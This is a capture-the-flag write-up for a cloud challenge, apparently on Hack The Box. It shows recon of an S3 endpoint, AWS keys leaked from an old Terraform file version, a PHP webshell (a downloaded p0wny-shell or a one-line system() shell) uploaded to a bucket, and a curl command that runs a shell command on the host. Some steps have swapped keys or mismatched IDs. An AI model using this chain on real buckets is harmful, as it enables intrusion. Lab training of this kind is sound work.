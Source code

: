 # Unveiled (Cloud Challenge)

Author : 0xkratos


## Challenge Description
Category: Cloud

Difficulty: Easy





## Strategy
The premise revolving around this challenge was to upload a PHP webshell to an openly-accessible AWS S3 Bucket and obtain RCE for the flag.

Connect to the HTB VPN via `sudo openvpn <vpntoken>.ovpn`
Add `unveiled.htb` to your `/etc/hosts` file for local DNS resolution.

Running nmap to the target:
```text
Nmap scan report for unveiled.htb (10.129.253.25)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Travel to Planet Red
|_http-server-header: Apache/2.4.41
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsing to the website at `http://unveiled.htb` and viewing the source (CTRL + U), we discover a hidden comment detailing another virtual host of `s3.unveiled.htb` which we add to our `/etc/hosts` file and a username of `galen` as shown below.
![unveiled_1](images/unveiled_1.png)
```text
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```

AWS Endpoint Function Workaround (Added https://github.com/aws/aws-cli/pull/8006/commits/e34caf506696db97c24d40da5a45e3e5b3bc5cb2)
Make sure you are running the latest version of `aws-cli` so you don't have to type the `--endpoint-url` every time or use the following:
```sh
$ export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

List buckets accessible:
```sh
$ aws s3api list-buckets
Buckets:
- CreationDate: '2023-07-14T21:12:16+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-14T21:12:17+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

$ aws s3api list-objects-v2 --bucket 'unveiled-backups'
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-14T21:12:18+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-14T21:12:19+00:00'
  Size: 1107
  StorageClass: STANDARD

$ aws s3 ls s3://unveiled-backups/
2023-07-14 17:12:18       4495 index.html
2023-07-14 17:12:19       1107 main.tf
```

Download Files:
```sh
$ aws s3 cp --recursive s3://unveiled-backups .
or ..
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```

List Bucket Access Control List (ACL):
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

Unintended solution (upload a webshell without creds):
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Get AWS S3 Bucket Version Control History:
```sh
$ aws s3api list-object-versions --bucket unveiled-backups
Versions:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  IsLatest: true
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4495
  StorageClass: STANDARD
  VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7
- ETag: '"3596df2e55e9786e11a09c32ae21c33c"'
  IsLatest: false
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4438
  StorageClass: STANDARD
  VersionId: ab1f42c7-0c8d-4a5b-8d70-05d95b71c937
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  IsLatest: true
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1107
  StorageClass: STANDARD
  VersionId: e760e5b7-cde9-485e-9a6b-de15e1694886
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
```

Get Old Revision of Files:
```sh
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id 2660dd61-14c4-47e4-ad0e-931c14da88a9 main.tf.old
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 2660dd61-14c4-47e4-ad0e-931c14da88a9

$ aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
AcceptRanges: bytes
ContentLength: 4495
ContentType: text/html
ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7

$ head ./unveiled-backups-old/main.tf
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
```

Configure AWS-CLI with new AWS secrets and check if we can access the private S3 bucket of `website-assets`.
```sh
$ aws configure
AWS Access Key ID: tLK3S3CNsXfj0mjPsIH2iCh5odYHMPDwSVxn7CB5
AWS Secret Access Key: AKIA6CFMOGFLAHOPQTMA
Default region name [us-east-1]:
Default output format [None]:

$ aws sts get-caller-identity
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

$ aws s3 ls s3://website-assets
2023-07-14 18:32:49      91790 background.jpg
2023-07-14 18:32:49       4372 index.html
```

Upload webshell with new access keys:
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
or ...
$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Access webshell:
```sh
$ firefox http://unveiled.htb/shell.php
```
Can also fetch the flag via curl:
```sh
curl -s -X POST 'http://unveiled.htb/shell.php?feature=shell' --data 'cmd=cat /var/www/flag.txt' | jq -r '.stdout'|base64 -d
HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}
```

Flag: `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`
